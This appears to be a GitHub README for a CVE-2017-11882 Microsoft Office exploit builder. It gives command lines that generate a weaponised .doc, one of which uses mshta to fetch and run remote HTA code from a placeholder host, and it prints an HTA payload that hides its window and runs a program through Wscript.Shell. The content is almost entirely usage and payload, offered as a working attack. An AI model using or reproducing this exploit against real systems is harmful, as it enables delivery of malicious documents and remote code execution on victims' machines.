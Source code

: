 # CVE-2017-11882
## Reference
https://github.com/embedi/CVE-2017-11882

https://github.com/unamer/CVE-2017-11882

# Usage 
- cmd 
```
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```
- mshta 
```
python Command_CVE-2017011882.py -c "mshta http://xxx.com/123" -o test.doc
```
123
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```



